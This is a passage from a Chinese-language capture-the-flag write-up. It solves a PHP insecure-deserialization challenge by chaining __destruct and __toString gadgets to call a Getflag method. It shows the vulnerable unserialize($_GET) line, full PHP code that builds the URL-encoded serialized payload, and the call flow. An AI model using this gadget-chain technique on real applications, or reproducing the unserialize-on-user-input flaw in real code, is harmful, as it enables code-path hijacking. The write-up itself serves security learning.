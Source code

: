 ```
$w00m = $_GET['w00m'];
unserialize($w00m);

?> 
```
### 解题思路
- 通过上面的分析我们知道，flag.php被包含在Getflag这个方法中，我们需要使用某种手段来调用它，而w33m类里面有__toString()方法，当对象被当作字符串时执行。因此我们可以通过设置w44m的两个对象admin和passwd分别为w44m和08067，然后在w22m中赋值$w00m为w33m,并通过w22m调用w33m，分别为w33m的两个对象赋值，$w00m->w44m,$w22m->Getflag,，最后对w22m进行序列化和url加密,生成攻击payload的php代码如下：
```php
<?php
// 创建w44m对象并设置所需属性值
class w44m{
    private $admin = 'w44m';       // 满足Getflag()条件的admin值
    protected $passwd = '08067';   // 满足Getflag()条件的passwd值
}

// 创建w33m对象，用于调用w44m的Getflag()方法
class w33m{
    public $w00m;      // 将被设置为w44m对象
    public $w22m = 'Getflag';  // 要调用的方法名
}

// 创建w22m对象，用于触发w33m的__toString()方法
class w22m{
    public $w00m;      // 将被设置为w33m对象
}

// 建立对象之间的关系
$w44m = new w44m();   // 创建w44m对象
$w33m = new w33m();   // 创建w33m对象
$w22m = new w22m();   // 创建w22m对象

// 设置w33m的属性，指向w44m对象和要调用的方法
$w33m->w00m = $w44m;

// 设置w22m的属性，指向w33m对象
$w22m->w00m = $w33m;

// 序列化w22m对象，这是我们的基础payload
$payload = serialize($w22m);

// 对payload进行URL编码，以便通过GET参数传递
echo urlencode($payload);
?>
```
- 运行之后生成payload传入给w00m参数，即可触发Getflag()方法，输出flag。其调用流程为：
```
反序列化完成 → PHP开始垃圾回收 → 销毁w22m对象 → 
触发w22m::__destruct() → 输出w33m对象 → 
PHP尝试将w33m对象转为字符串 → 触发w33m::__toString() → 
执行$w00m->{$this->w22m}() → 等价于 $w44m->Getflag() → 
检查admin和passwd → 满足条件 → 输出flag
```

